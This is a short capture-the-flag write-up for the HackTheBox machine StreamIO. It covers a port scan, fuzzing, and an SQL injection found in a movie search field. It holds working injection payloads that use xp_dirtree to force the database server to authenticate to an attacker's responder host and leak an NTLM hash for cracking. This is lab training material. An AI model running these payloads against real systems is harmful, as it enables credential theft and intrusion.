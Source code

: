 # StreamIO

![StreamIO.png](StreamIO/StreamIO.png)

**Jun 5, 2022**

Doing a NMAP scan to discover open ports and service versions.

Domain: streamIO.htb

![Untitled](StreamIO/Untitled.png)

After the discovery of the open ports, we did a file fuzzing in the main route of the HTTP server.

![Untitled](StreamIO/Untitled%201.png)

Fuzzing directories:

![Untitled](StreamIO/Untitled%202.png)

Main page

![Untitled](StreamIO/Untitled%203.png)

Names obtained from the page:

Names: Barry, Oliver, Samantha

![Untitled](StreamIO/Untitled%204.png)

The watch subdomain has a input of search movies, we identified in this input a SQL Injection vulnerability.

![Untitled](StreamIO/Untitled%205.png)

### Dumping NTLM using MSSLQ + SQL INJECTION

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)

```python
sudo responder -I tun0 #Run that in other console
SQL> exec master..xp_dirtree '\\<YOUR_RESPONDER_IP>\test' #Steal the NTLM hash, crack it with john or hashcat
'exec master..xp_dirtree '\\10.10.10.10\test'-- x
'union select 1,2,3,4,5,6; exec master..xp_dirtree '\\10.10.10.10\test'-- x
```

![Untitled](StreamIO/Untitled%206.png)

This type of hash is almost impossible of crack.

### Performing MSSQL Injection
